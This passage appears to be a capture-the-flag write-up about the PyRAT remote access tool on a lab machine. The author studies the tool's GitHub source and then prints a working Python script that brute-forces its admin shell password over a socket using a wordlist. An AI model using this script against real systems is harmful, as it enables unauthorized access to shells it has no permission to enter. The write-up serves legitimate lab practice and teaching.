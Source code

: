 

## PyRAT Admin

Our current user has received an email from the root user, informing root has installed a RAT inside their own system for testing purposes, and that the RAT have been posted on [Github](https://github.com/josemlwdf/PyRAT). So I've decided to check it out since we have the author's email and name.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/thm_pyrat/9.png)

Reading through the project, there is some key information to solving this challenge: the RAT often uses port 8000, and also has some special commands to access admin shell.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/thm_pyrat/10.png)

So we've been messing with PyRAT so far, and we know the endpoint meant earlier is admin. Problem is that it requires a password and we don't have it, so I've decided to bruteforce it. Had to create a custom Python script to do so:

```python
import argparse
import os
import socket
import sys


def validate_file(file_path):
    if not os.path.isfile(file_path):
        print(f"Error: The file '{file_path}' does not exist.")
        sys.exit(1)
    return file_path

def bruteforce(addr, port, wordlist):
	print("Bruteforcing PyRAT...")

	print(f"IP Address: {addr}")
	print(f"Port: {port}")
	print(f"Wordlist: {wordlist}\n")

	with open(wordlist, encoding="latin-1") as file:

		while True:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client:
				client.connect((addr, port))

				client.sendall(b"admin")
				client.recv(1024) # "Password:\n"

				for _ in range(2):
					password = file.readline().strip()
					client.sendall(password.encode())
					response = client.recv(1024).decode()

					if "Welcome Admin!!!" in response:
						print(f"[+] PASSWORD FOUND: {password}")
						exit()
				
					print(f"[-] Attempt: {password}")

def main():
	parser = argparse.ArgumentParser(description="PyRAT admin shell bruterforce tool.")
	
	parser.add_argument("ip", type=str, help="PyRAT IP")
	parser.add_argument("port", type=int, help="PyRAT Port", default=8000)
	parser.add_argument("wordlist", type=validate_file, help="Path to the wordlist file")
```
